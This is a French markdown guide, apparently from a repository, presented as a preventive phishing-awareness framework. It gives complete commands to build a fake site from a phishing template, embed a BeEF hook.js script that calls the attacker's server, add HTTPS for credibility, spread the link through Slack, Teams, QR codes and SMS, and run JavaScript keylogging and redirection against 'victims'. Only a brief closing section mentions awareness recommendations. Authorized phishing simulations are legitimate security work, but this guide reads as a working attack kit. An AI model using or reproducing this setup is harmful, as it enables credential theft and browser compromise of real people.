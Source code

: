 # 🚀 Framework Préventif Phishing/Scam (Sans Email)

## 🏗️ 1. Infrastructure

### Prérequis :
- VPS (OVH, Hetzner, Contabo, Scaleway)
  - Debian 12 ou Ubuntu 22.04 LTS
  - 2 vCPU, 4 Go RAM, 50 Go SSD
  - IP publique

## 🧰 2. Stack technique

| Composant       | Rôle                   |
|-----------------|------------------------|
| BeEF           | Capturer les victimes  |
| Nginx          | Héberger le faux site  |
| Let's Encrypt  | SSL pour crédibilité   |
| UFW / Fail2Ban | Sécurité minimale      |
| Nom de domaine | Rendre ça pro          |

## 🔨 3. Installation

### a) Mise à jour VPS :
```bash
sudo apt update && sudo apt upgrade -y
sudo apt install -y git curl build-essential ruby ruby-dev nginx certbot python3-certbot-nginx ufw fail2ban
```

### b) Installation de BeEF :
```bash
git clone https://github.com/beefproject/beef.git
cd beef
bundle install
./beef
```
Accès : http://[IP_VPS]:3000/ui/panel (login : beef / beef)

### c) Faux site avec Nginx :

1. Crée le dossier :
```bash
sudo mkdir -p /var/www/fauxsite
sudo nano /var/www/fauxsite/index.html
```
2. Ajoute un template de phishing (exemple : [credphish/templates](https://github.com/credphish/templates)) avec :
```html
<script src="http://[IP_VPS]:3000/hook.js"></script>
```
3. Configuration Nginx :
```bash
sudo nano /etc/nginx/sites-available/fauxsite
```
Contenu :
```nginx
server {
    listen 80;
    server_name tonfauxsite.com;

    root /var/www/fauxsite;
    index index.html;

    location / {
        try_files $uri $uri/ =404;
    }
}
```
Activation :
```bash
sudo ln -s /etc/nginx/sites-available/fauxsite /etc/nginx/sites-enabled/
sudo nginx -t
sudo systemctl reload nginx
```

### d) SSL Let's Encrypt :
```bash
sudo certbot --nginx -d tonfauxsite.com
```

## 🛡️ 4. Sécurité VPS :
```bash
sudo ufw allow OpenSSH
sudo ufw allow 80,443,3000/tcp
sudo ufw enable
```
Fail2ban actif par défaut.

## 🎯 5. Diffusion du lien :
- Slack, Discord, Teams
- QR code imprimé
- SMS interne

## 📊 6. Suivi via BeEF :
- OS, navigateur, plugins
- IP et géolocalisation
- Actions : popup, redirection, keylogger JS

## 📁 7. Rapport final :
- Nombre de victimes
- Failles humaines détectées
- Recommandations : vigilance sur les liens, vérifier les URLs, méfiance même en interne

## 📌 Recap :

| ÉTAPE           | OUTIL       | OBJECTIF              |
|-----------------|-------------|-----------------------|
| VPS            | Hetzner     | Hébergement          |
| BeEF           | GitHub      | Capture & exploitation|
| Faux Site      | Nginx + HTML| Simulation phishing  |
| SSL            | Certbot     | Crédibilité https    |
| Sécurité       | UFW/Fail2ban| VPS protégé          |
| Diffusion lien | Slack/QR/etc| Remplacement des mails|
